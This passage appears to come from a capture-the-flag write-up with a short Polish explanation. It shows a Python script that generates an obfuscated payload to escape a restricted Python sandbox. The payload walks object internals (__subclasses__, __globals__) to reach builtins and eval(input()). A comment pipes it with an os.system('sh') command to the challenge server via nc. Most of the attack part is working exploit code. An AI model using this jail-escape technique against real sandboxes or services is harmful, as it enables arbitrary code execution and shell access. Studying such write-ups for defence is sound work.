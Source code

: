 ```python
while True:
chr_code += 1
char = unicodedata.normalize('NFKC', chr(chr_code))
if char.isidentifier() and char not in names:
names.append(char)
break

offsets = {
"__delitem__": 2800,
"__getattribute__": 2850,
'__dir__': 4693,
'__repr__': 2128,
}

variables = ('keys', 'keys2', 'None_', 'NoneType',
'm_repr', 'globals', 'builtins',)

for name, offset in offsets.items():
names[offset] = name

for i, var in enumerate(variables):
assert var not in offsets
names[792 + i] = var


source = f'''[
({",".join(names)}) if [] else [],
None_ := [[]].__delitem__({_(0)}),
keys := None_.__dir__(),
NoneType := None_.__getattribute__({_.__class__}),
keys2 := NoneType.__dir__(NoneType),
get := NoneType.__getattribute__,
m_repr := get(
get(get([],{_.__class__}),{_.__base__}),
{_.__subclasses__}
)()[-{_(2)}].__repr__,
globals := get(m_repr, m_repr.__dir__()[{_(6)}]),
builtins := globals[[*globals][{_(7)}]],
builtins[[*builtins][{_(19)}]](
builtins[[*builtins][{_(28)}]](), builtins
)
]'''.strip().replace('\n', '').replace(' ', '')

print(f"{len(source) = }", file=sys.stderr)
print(source)

# (python exp.py; echo '__import__("os").system("sh")'; cat -) | nc challenge.server port
12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061626364656667686970717273
```
W zasadzie wykonuje następujące czynności, dla tych ciągów uzyskujemy je z metody `__dir__`:
```python
getattr = (None).__getattribute__('__class__').__getattribute__
builtins = getattr(
getattr(
getattr(
[].__getattribute__('__class__'),
'__base__'),
'__subclasses__'
)()[-2],
'__repr__').__getattribute__('__globals__')['builtins']
builtins['eval'](builtins['input']())
```